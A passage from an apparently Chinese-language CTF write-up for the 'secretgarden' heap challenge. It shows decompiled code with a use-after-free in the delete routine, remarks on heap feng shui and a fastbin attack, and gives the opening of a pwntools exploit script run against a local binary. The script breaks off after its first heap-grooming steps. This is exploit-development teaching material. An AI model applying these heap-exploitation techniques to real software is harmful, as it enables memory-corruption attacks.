      v3 = __readfsqword(0x28u);
      if ( !flower_count )
        return puts("No flower in the garden");
      __printf_chk(1LL, "Which flower do you want to remove from the garden:");
      __isoc99_scanf("%d", &v2);
      if ( v2 <= 0x63 && (v1 = (_DWORD *)heaplst[v2]) != 0LL )
      {
        *v1 = 0;
        free(*(void **)(heaplst[v2] + 8LL));
        result = puts("Successful");
      }
      else
      {
        puts("Invalid choice");
        result = 0;
      }
      return result;
    }
可以看到指针没清零
注意的一点是他每次会申请两个堆块
所以要注意一下堆风水
剩下的就是很基本的fastbin attack了

    from pwn import *
    context.log_level = 'debug'
    elf = ELF('secretgarden')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io = process('./secretgarden')
    
    def add(l,name,color):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('name :')
    	io.sendline(str(l))
    	io.recvuntil('name of flower :')
    	io.sendline(name)
    	io.recvuntil('color of the flower :')
    	io.sendline(color)
    def visit():
    	io.recvuntil(':')
    	io.sendline('2')
    def delete_one(idx):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('garden:')
    	io.sendline(str(idx))
    def delete_all():
    	io.recvuntil(':')
    	io.sendline('4')
    
    add(0xb0,'a'*0xb0,'green')#0
    add(0x80,'a'*0x80,'red')#1
    delete_one(0)
    add(0x80,'a'*7,'green')#2
    